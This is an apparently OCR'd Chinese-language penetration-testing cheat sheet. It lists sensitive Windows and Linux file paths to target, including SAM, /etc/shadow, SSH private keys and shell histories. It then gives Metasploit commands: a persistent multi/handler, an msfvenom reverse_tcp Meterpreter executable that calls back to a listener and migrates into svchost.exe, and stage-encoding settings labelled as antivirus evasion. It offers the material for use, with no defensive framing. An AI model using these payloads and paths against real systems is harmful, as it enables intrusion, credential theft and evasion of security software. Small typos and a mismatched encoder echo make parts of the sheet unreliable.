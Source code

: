 敏感文件路径:
Windows：
   C:\boot.ini  //查看系统版本
   C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
   C:\Windows\repair\sam  //存储系统初次安装的密码
   C:\Program Files\mysql\my.ini  //Mysql配置
   C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
   C:\Windows\php.ini  //php配置信息
   C:\Windows\my.ini  //Mysql配置信息

Linux：
   /root/.ssh/authorized_keys
   /root/.ssh/id_rsa
   /root/.ssh/id_ras.keystore
   /root/.ssh/known_hosts
   /etc/passwd
   /etc/shadow
   /etc/my.cnf
   /etc/httpd/conf/httpd.conf
   /root/.bash_history
   /root/.mysql_history
   /proc/self/fd/fd[0-9]*(文件标识符)
   /proc/mounts
   /porc/config.gz

msfvenom:
msfvenom -p payload --list-options
msfvenom --list payloads
msfvenom --list encoders
msfvenom --list nops
msfvenom --list platforms
msfvenom --list archs
msfvenom --list encrypt
msfvenom --list formats

msf exploit(multi/handler) > set ExitOnSession false   //可以在接收到seesion后继续监听端口，保持侦听。
msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0  //默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0
msf5 exploit(multi/handler) > set SessionExpirationTimeout 0 //默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭
msf exploit(multi/handler) > exploit -j -z //-j为后台任务，-z为持续监听
msf5 > handler -H 10.211.55.2 -P 3333 -p windows/meterpreter/reverse_tcp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o  shell.exe  //生成的shell程序执行后会启动两个进程shell.exe和svchost.exe，关闭其中一个不会影响会话状态。唯一美中不足的是svchost.exe不是system32目录下的。

绕过杀软:
msfvenom -p windows/meterpreter/reverse_https lhost=10.211.55.2 lport=3333 -f c
msf exploit(multi/handler) > set EnableStageEncoding true   //尝试使用不同的编码器对stage进行编码，可能绕过部分杀软的查杀
EnableStageEncoding => true
msf exploit(multi/handler) > set stageencoder x86/fnstenv_mov
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
